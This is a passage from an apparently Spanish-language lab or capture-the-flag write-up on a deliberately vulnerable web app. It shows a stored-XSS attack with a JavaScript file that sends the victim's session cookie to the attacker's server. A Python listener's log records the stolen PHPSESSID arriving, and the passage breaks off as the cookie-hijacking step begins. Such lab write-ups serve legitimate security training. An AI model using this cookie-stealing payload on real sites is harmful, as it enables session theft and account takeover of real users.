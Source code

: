 Bueno vemos que si hacemos esto pues nos crea una alerta pero tambien podemos indicar que la `cookie` se nos envie a un servidor tercero

![](/assets/images/vh-writeup-myexpen/Web15.png)

Vamos a crear un archivo `.js` se va a tramitar una peticion por `GET` y cuando la victima por detras interpreta este recurso por `XSS` por detras la peticion se va a tramitar a mi peticion web y nos va a llegar la `cookie` de sesion a nuestra servidor web del usuario

```javascript
❯ catn zi.js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.15/?cookie=' + document.cookie);
request.send();
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y nos llega la `cookie`

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.38 - - [28/Mar/2023 19:06:31] "GET /zi.js HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 19:06:31] "GET /?cookie=PHPSESSID=20umug3e0lhsso701tpu73b0s1 HTTP/1.1" 200 -

```

Vamos a copearnos la `cookie` para ver si podemos hacer un `Cookie Hijacking`

Entonces ponemos la `cookie` hay y hacemos un ctrl+r

